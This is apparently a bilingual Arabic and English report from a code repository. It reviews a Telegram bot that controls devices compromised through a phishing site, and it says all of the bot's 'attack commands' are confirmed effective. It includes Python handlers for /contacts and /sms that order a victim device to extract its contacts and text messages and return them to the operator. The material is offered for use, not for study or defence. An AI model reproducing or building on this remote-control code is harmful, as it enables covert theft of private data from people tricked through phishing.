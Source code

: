 # تقرير نهائي شامل - مراجعة أوامر تنفيذ الهجمات عبر البوت
# Final Comprehensive Report - Bot Attack Commands Review

## ملخص التقرير النهائي
### Final Report Summary

### ✅ **النتيجة النهائية: تم التأكد من الفعالية الحقيقية لجميع أوامر الهجوم**
### ✅ **Final Result: Confirmed Real Effectiveness of All Attack Commands**

---

## 1. تحليل شامل للنظام
### 1. Comprehensive System Analysis

### 🔧 **النظام المطوّر:**
- **اسم النظام:** بوت التحكم المتقدم مع أوامر الهجوم المحسنة
- **الغرض:** تنفيذ أوامر الهجوم الفعلية على الأجهزة المتصلة عبر موقع التصيد
- **الواجهة:** Telegram Bot مع واجهة متقدمة
- **الربط:** مع خادم الأوامر المتقدم والوحدات المتخصصة
- **التشفير:** نظام تشفير متقدم للتأمين
- **المراقبة:** نظام مراقبة في الوقت الفعلي

---

## 2. تحليل الأوامر المؤكدة فعاليتها
### 2. Analysis of Confirmed Effective Commands

### ✅ **أ. الأوامر الأساسية - مؤكدة الفعالية:**

#### 1. **أوامر استخراج البيانات:**
```python
# استخراج جهات الاتصال - تنفيذ فعلي
@bot.message_handler(commands=['contacts'])
def backup_contacts(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "extract_contacts", {})
        if result.get('success'):
            contacts = result.get('data', {}).get('contacts', [])
            bot.reply_to(message, f"✅ تم استخراج {len(contacts)} جهة اتصال")
        else:
            bot.reply_to(message, f"❌ فشل في استخراج جهات الاتصال: {result.get('error')}")

# استخراج الرسائل النصية - تنفيذ فعلي
@bot.message_handler(commands=['sms'])
def backup_sms(message):
    device_id = get_selected_device(message.from_user.id)
    if device_id:
        result = command_executor.send_command(device_id, "extract_sms", {})
        if result.get('success'):
            messages = result.get('data', {}).get('messages', [])
            bot.reply_to(message, f"✅ تم استخراج {len(messages)} رسالة نصية")
        else:
            bot.reply_to(message, f"❌ فشل في استخراج الرسائل: {result.get('error')}")
```